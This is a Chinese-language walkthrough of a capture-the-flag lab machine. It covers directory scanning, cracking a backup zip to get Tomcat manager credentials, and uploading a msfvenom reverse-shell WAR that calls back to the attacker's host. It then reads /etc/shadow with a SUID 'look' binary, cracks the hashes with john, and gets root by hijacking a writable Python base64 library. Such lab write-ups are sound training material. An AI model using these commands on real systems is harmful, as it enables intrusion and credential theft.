# 一、侦测
## 1.1 端口扫描


## 1.2 80端口 http扫描
`dirsearch -u http://192.168.203.140/ -x 404`


没有敏感文件

## 1.3 8080端口 http扫描
`dirsearch -u http://192.168.203.140:8080/ -x 404`


得到如下文件：
`/readme.txt`、`/backup.zip`、`/favicon.ico`、`/docs/`、`/examples/`

## 1.4 敏感文件探查

`/readme.txt`中得知有 randy 的系统管理员文件在服务器中，并且还有神秘密码


`/backup.zip`需要密码


开代理安装`fcrackzip`，密码：`@administrator_hi5`

解压后总共10个文件

其中`tomcat-users.xml`存放着 Tomcat 管理后台的用户、密码、对应的角色权限

>用户名：`admin`
>密码：`melehifokivai`
>roles：`admin-gui和manager-gui`

登录进入`/manager`后发现可以上传 WAR 文件

# 二、反弹shell
类似的手法见[点击跳转Thales-apache-war反弹shell](/docs/cybersecurity/vulnhub/medium/vulnhub_Corrosion2/index.md#apache-war-revshell)

全部反弹shell见[点击跳转反弹shell](/docs/cybersecurity/kali_linux基操/index.md#revshell)

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.203.129 LPORT=7777 -f war -o revshell.war`

`nc -lvvp 7777`

点击`/revshell`文件

接着[点击跳转kali linux中升级shell界面](/docs/cybersecurity/kali_linux基操/index.md#update-shell)

# 三、提权
见[提权思路](/docs/cybersecurity/kali_linux基操/index.md#privesc)


`sudo -l`要求提供密码,因此检查其他目录

```BASH
`find / -perm -u=s -type f 2>/dev/null`
```
出来巨多文件（目前不适合用）
在`/home/`文件夹中有两个用户`jaye`和`randy`，其中`jaye`需要权限


```BASH
ssh jaye@192.168.203.140
```
新开ssh终端连接到`jaye`，再输入`bash`切换为更优美的界面
找到`look`文件，使用方法见[点击跳转look使用说明](/docs/cybersecurity/kali_linux基操/index.md#look)

>接着用look命令查看`/etc/shadow`和`/etc/passwd`


`./look "" /etc/shadow > ./shadow/.txt`找到重要内容
```
randy:$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/:18888:0:99999:7:::
systemd-coredump:!!:18886::::::
tomcat:$6$XD2Bs.tL01.5OT2b$.uXUR3ysfujHGaz1YKj1l9XUOMhHcKDPXYLTexsWbDWqIO9ML40CQZPI04ebbYzVNBFmgv3Mpd3.8znPfrBNC1:18888:0:99999:7:::
sshd:*:18887:0:99999:7:::
jaye:$6$Chqrqtd4U/B1J3gV$YjeAWKM.usyi/JxpfwYA6ybW/szqkiI1kerC4/JJNMpDUYKavQbnZeUh4WL/fB/4vrzX0LvKVWu60dq4SOQZB0:18887:0:99999:7:::
```
将内容搞到自己的 kali 中，针对`randy`，准备破解。见[点击跳转SSH私钥密码破解](/docs/cybersecurity/kali_linux基操/index.md#john)

```ZSH
john --wordlist=/usr/share/wordlists/rockyou.txt randy.txt
```

>`randy`密码`07051986randy`

进入`randy`账户后，`sudo -l`发现python3可以以root权限执行`randombase64.py`。那么可以修改这个文件，执行提权



结果发现不能修改文件，其中调用了`base64`库，因此找这个库，看看能不能修改内容


找到内容在`/usr/lib/python3.8/base64.py`，且能直接修改，添加本地提权命令，见[点击跳转4.1.4python反弹shell](/docs/cybersecurity/kali_linux基操/index.md#revshell)
```python
import os
os.system("/bin/bash")
```




成功获得root权限，获得flag
